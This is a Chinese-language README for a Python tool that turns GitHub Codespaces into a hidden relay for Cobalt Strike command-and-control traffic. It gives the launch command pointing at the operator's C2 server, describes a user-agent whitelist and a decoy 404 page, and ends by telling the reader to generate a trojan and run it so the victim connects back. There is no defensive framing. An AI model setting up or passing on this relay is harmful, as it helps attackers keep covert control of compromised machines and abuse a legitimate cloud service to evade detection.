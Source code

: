 # 利用GITHUB CODESPACE进行上线

[![Python 3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/) 

## 使用方法
1、CS配置使用profile下的demo.profile.

2、在GIT CODESPACE上，运行代码

```
python gitTun.py -u https://cs_ip:port
```

>这样就会把请求转发到cs上，如果想要看debug信息，可添加`-debug`,如果要添加UA白名单，可添加`-user-agent`参数，并指定UA。可通过`-html` 来指定一个404的页面，端口为要开启的监听器的端口，如：8443。

3、将codespace 上的端口设置为`public`，并指定为HTTPS。

4、将生成的URL作为HOST填入监听器，监听`443`端口，并指定绑定同端口，如 8443。

5、生成木马，运行上线。